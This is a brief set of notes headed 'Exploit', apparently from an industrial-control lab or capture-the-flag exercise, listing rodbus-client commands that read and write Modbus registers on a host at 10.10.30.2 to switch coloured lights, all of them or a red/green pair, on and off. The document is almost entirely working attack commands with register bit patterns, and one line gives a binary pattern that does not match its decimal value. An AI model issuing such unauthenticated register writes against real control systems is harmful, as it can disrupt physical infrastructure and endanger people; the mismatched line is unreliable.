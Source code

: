 # Exploit

## Read values
* rodbus-client -h 10.10.30.2:503 -p 2000 rhr --start 0 --quantity 1

## Fuzz values

* rodbus-client -h 10.10.30.2:504 -p 0 wsr --index 0 --value 2
* rodbus-client -h 10.10.30.2:504 -p 0 wsr --index 0 --value 0 -> turn off

## values

* 0100001100000000 --> turn on Red Green `rodbus-client -h 10.10.30.2:504  wsr --index 0 --value 17152`
* 0100010100000000 --> turn on Green Green `rodbus-client -h 10.10.30.2:504  wsr --index 0 --value 17664`
* 0100010100000000 --> turn off Green Green `rodbus-client -h 10.10.30.2:504  wsr --index 0 --value 17408`
* 0111111100000000 --> turn on All lights `rodbus-client -h 10.10.30.2:504  wsr --index 0 --value 32512`